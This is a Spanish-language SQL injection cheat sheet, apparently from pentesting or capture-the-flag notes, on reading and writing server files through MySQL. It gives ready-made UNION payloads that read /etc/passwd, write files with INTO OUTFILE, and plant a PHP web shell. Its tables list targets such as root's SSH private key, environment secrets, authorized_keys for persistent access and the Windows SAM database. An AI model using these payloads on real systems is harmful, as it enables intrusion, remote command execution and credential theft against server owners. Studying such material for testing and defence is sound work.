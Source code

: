 
### Inyección de Archivos

| Payload | Descripción |
|--------|-------------|
| `cn' UNION SELECT 1,LOAD_FILE("/etc/passwd"),3,4-- -` | Leer archivos locales |
| `SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'` | Escribir archivo local |
| `cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"","" INTO OUTFILE '/var/www/html/shell.php'-- -` | Crear WebShell |

---
## Rutas típicas y útiles en MySQL (enumeración + explotación)

| Ruta / Payload                      | Descripción                                                                                                              |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| `/etc/passwd`                       | Archivo del sistema Unix que contiene usuarios locales. Puede ser leído con `LOAD_FILE()` si el servidor tiene permisos. |
| `/var/www/html/`                    | Ruta común donde se aloja el contenido web. Ideal para escribir shells web (`OUTFILE`).                                  |
| `/tmp/`                             | Ruta de archivos temporales. También puede permitir escritura con `SELECT ... INTO OUTFILE`.                             |
| `/var/lib/mysql/`                   | Ruta por defecto donde MySQL guarda datos. Puede revelar estructuras internas si se listan o leen archivos.              |
| `/proc/version`                     | Información del kernel del sistema operativo. Útil para fingerprinting.                                                  |
| `/proc/self/environ`                | A veces contiene variables de entorno con datos sensibles, como rutas, claves, etc.                                      |
| `/root/.ssh/id_rsa`                 | Clave privada del usuario root, si el servicio se ejecuta como root y permite `LOAD_FILE()`.                             |
| `/home/<user>/.ssh/authorized_keys` | Puede ser objetivo de escritura para obtener acceso persistente via SSH.                                                 |
| `/var/log/apache2/access.log`       | Puede contener trazas de errores o accesos útiles para LFI o debugging.                                                  |
| `/dev/null`                         | "Archivo nulo" del sistema. A veces se usa para redirecciones seguras o limpieza.                                        |
| `/var/log/mysql/error.log`          | Logs del propio servicio MySQL. Puede revelar errores, rutas o configuraciones.                                          |
| `information_schema.schemata`       | Base de datos virtual para enumerar todas las bases de datos existentes.                                                 |
| `information_schema.tables`         | Permite enumerar todas las tablas dentro de todas las bases de datos.                                                    |
| `information_schema.columns`        | Permite conocer todas las columnas de todas las tablas. Muy útil en inyecciones.                                         |
|                                     |                                                                                                                          |

>  **Consejo**: Puedes combinar rutas con funciones SQL como `LOAD_FILE()` y `INTO OUTFILE` para leer o escribir archivos en el sistema del servidor si los permisos lo permiten.

## Rutas típicas de interés en Windows

| Ruta | Descripción |
|------|-------------|
| `C:\inetpub\wwwroot\` | Ruta por defecto de IIS (Internet Information Services). |
| `C:\xampp\htdocs\` | Usada por XAMPP para alojar contenido web. |
| `C:\wamp\www\` | Usada por WAMP para alojar contenido web. |
| `C:\Users\Administrator\Desktop\` | Escritorio del administrador (posible ruta de flags). |
| `C:\Program Files\MySQL\MySQL Server X.X\` | Instalación por defecto de MySQL. |
| `C:\ProgramData\MySQL\MySQL Server X.X\Data\` | Directorio de datos en versiones modernas. |
| `C:\Windows\System32\config\SAM` | Base de datos de contraseñas de Windows. |
| `C:\Windows\Temp\` | Archivos temporales. Similar a `/tmp` en Linux. |